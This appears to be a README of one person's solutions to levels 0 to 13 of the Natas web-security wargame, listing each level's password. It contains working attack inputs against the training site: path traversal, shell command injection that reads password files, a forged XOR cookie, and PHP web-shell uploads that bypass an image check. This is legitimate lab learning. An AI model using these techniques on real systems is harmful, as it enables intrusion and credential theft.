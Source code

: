 # Natas
This repository holds my solutions to the wargame natas.

## Level 0
Looking in the source we can see the comment:
```
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
```
Password: gtVrDuiDfck831PqWsLEZy5gyDz1clto

## Level 1
We can use the shortcut 'CTRL+U' to access the source and find the comment:
```
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
```
Password: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

## Level 2
Looking in the source we see that a picture called pixels is stored in the directory files. Going to http://natas2.natas.labs.overthewire.org/files/ we can see the file users.txt which holds the password.

Password: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

## Level 3
Looking in the source we can see the comment: `<!-- No more information leaks!! Not even Google will find it this time... -->`. The only way google won't find it is if it's path was stored in the robots.txt file. Visiting it, then going to http://natas3.natas.labs.overthewire.org/s3cr3t/ results in the password.

Password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

## Level 4
We can use a curl command to change the http referer. Running `curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/index.php` results in the password.

Password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

## Level 5
Changing the cookie loggedin from 0 to 1 results in the password.

Password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

## Level 6
Looking at the php in the source after clicking the view source button we can see that the secret is stored in http://natas6.natas.labs.overthewire.org/includes/secret.inc. Visiting the url and submitting the secret results in the password.

Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

## Level 7
The site reads a file that we can control the name of. Looking in the source we can see that the password is stored in `/etc/natas_webpass/natas8`. Going to the url `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8` results in the password.

Password: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

## Level 8
The secret has been base64 encoded, reversed, then encoded in hex. We can use the following line of python to decode it `import base64; base64.b64decode(bytearray.fromhex("3d3d516343746d4d6d6c315669563362").decode()[::-1])` and get the secret `oubWYf2kBq`. Submitting the secret we get the password.

Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

## Level 9
We can inject a linux command using `; COMMAND HERE ;`. Inputting `; cat /etc/natas_webpass/natas10;` results in the password.

Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

## Level 10
We can use the regular expression `.*` to match anything. If we use it then add the name of the file containing the password, then comment the rest of the expression we get the password. We can use this command to do that: `.* /etc/natas_webpass/natas11 #`

Password: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

## Level 11
The first thing we have to do is create a script that XORs two strings.
```
def xor(str1, str2):
	assert(len(str1)==len(str2))
	return ''.join([chr(ord(str1[i])^ord(str2[i])) for i in range(len(str1))])
```
The json encoded data should look like this: `{"showpassword":"no","bgcolor":"#ffffff"}`. Due to the easy reversibility of XOR we can find the key by XORing the string above and the cookie. Running: `xor(base64.b64decode("ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=").decode(), "{\"showpassword\":\"no\",\"bgcolor\":\"#ffffff\"}")` gives us the key, `qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq`. 

Now we can XOR the json data we need to solve the challenge, `{"showpassword":"yes","bgcolor":"#ffffff"}`, with the key to get the cookie needed to get the password. We have to extend the key to make it equal in size to the json data.
```
>>> x = xor("qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw", "{\"showpassword\":\"yes\",\"bgcolor\":\"#ffffff\"}")
>>> base64.b64encode(bytes(x, 'utf-8'))
b'ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK'
```
Changing the cookie data to `ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK` results in the password.

Password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

## Level 12
Thank you, https://www.abatchy.com/2016/11/natas-level-12 on this problem for so long. (Note: this is the only hint I've yet to use)

The key insight is to realize that the file you inject can be run by the server. Looking at the code we see that the file type of the injected file is stored in the variable filename. Changing this from a .jpg to a .php allows us to inject php code. We can inject the following code to read the password stored in natas13:
```
<?php
$file = file_get_contents("/etc/natas_webpass/natas13");
echo $file;
?>
```
Password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

## Level 13
This is the same problem as before except now we have to pass an extra if statement that checks if our file is an image. It checks this using the function exif_imagetype. A quick trip to the [documentation](https://www.php.net/manual/en/function.exif-imagetype.php) tells us that this is done by checking the file signature. This means we can easily bypass the check by modifing the file signature in a hex editor. Changing the first four bytes to FF D8 FF DB, shifting our code four bytes, and changing the code above to read from the file natas14 results in the password. All we have to do after our modifications to the file is change the variable filename from a .jpg to a .php file and submit.

Password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
